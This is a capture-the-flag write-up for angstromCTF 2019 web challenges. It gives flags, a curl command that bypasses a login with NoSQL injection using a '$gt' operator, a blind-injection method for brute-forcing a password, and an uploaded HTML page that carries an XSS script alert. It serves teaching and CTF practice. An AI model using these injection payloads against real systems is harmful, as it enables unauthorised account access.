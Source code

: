 ångstromCTF 2019 -- quick write-ups by @terjanq (Web)
===

# Control You
The flag was in the source code of the webpage **actf{control_u_so_we_can't_control_you}**

# No Sequels
This was a basic NoSQL Injection task.
```shell
curl -i https://nosequels.2019.chall.actf.co/login \
-H 'Content-type: application/json' \
-d '{"username": "admin", "password": {"$gt": "a"}}' \
-H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRoZW50aWNhdGVkIjpmYWxzZSwiaWF0IjoxNTU1NzE4OTc5fQ.-YQh71DMt2mRIwKmgAKIB16rliriYF4dSilCsYo84-8'
```
After executing the above command we get a session cookie for the admin and when visiting the `https://nosequels.2019.chall.actf.co/site` we get the flag.
**actf{no_sql_doesn't_mean_no_vuln}**

# No Sequels 2
This was the same task as before but here we had to use blind NoSQL injection in order to fetch all of the pasword's characters by using the payload above. E.g.
```
{"username": "admin", "password": {"$gt": "a"}} -> true
{"username": "admin", "password": {"$gt": "z"}} -> false
```

By bruteforcing all characters we get the password `congratsyouwin` and then the flag: **actf{still_no_sql_in_the_sequel}**

Solving script: [./NoSequels2/solve.py](./NoSequels2/solve.py)

# DOM Validator

*Detailed writeup available here: https://medium.com/@terjanq/xss-auditor-the-protector-of-unprotected-f900a5e15b7b*

We had a simple upload page that allowed you to upload a custom HTML page. You could report suspicious URLs to admin.
After uploading the page we get:
```htmlmixed

<!DOCTYPE html SYSTEM "3b16c602b53a3e4fc22f0d25cddb0fc4d1478e0233c83172c36d0a6cf46c171ed5811fbffc3cb9c3705b7258179ef11362760d105fb483937607dd46a6abcffc">
<html>
	<head>
		<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/skeleton/2.0.4/skeleton.min.css">
		<script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.2/rollups/sha512.js"></script>
		<script src="../scripts/DOMValidator.js"></script>
	</head>
	<body>
		<h1>test_post</h1>
		<p><script>alert('pwned')</script></p>
	</body>
</html>
```
